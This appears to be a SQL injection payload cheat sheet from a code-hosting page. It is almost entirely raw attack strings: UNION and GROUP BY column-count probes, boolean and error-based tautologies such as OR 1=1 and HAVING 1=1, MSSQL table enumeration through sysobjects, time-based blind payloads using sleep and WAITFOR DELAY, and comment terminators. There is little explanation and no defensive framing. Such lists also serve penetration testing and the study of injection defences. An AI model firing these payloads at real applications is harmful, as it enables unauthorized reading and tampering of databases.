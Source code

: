 ```
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --


-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1	

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


Finding the table name


Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--

Comments:

#	    Hash comment
/*  	C-style comment
-- -	SQL comment
;%00	Nullbyte
`	    Backtick
```

#### Generic Error Based Payloads

```
 OR 1=1
 OR 1=0
 OR x=x
 OR x=y
 OR 1=1#
 OR 1=0#
 OR x=x#
 OR x=y#
 OR 1=1-- 
 OR 1=0-- 
 OR x=x-- 
 OR x=y-- 
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=1
 HAVING 1=0
 HAVING 1=1#
 HAVING 1=0#
 HAVING 1=1-- 
 HAVING 1=0-- 
 AND 1=1
 AND 1=0
 AND 1=1-- 
 AND 1=0-- 
 AND 1=1#
```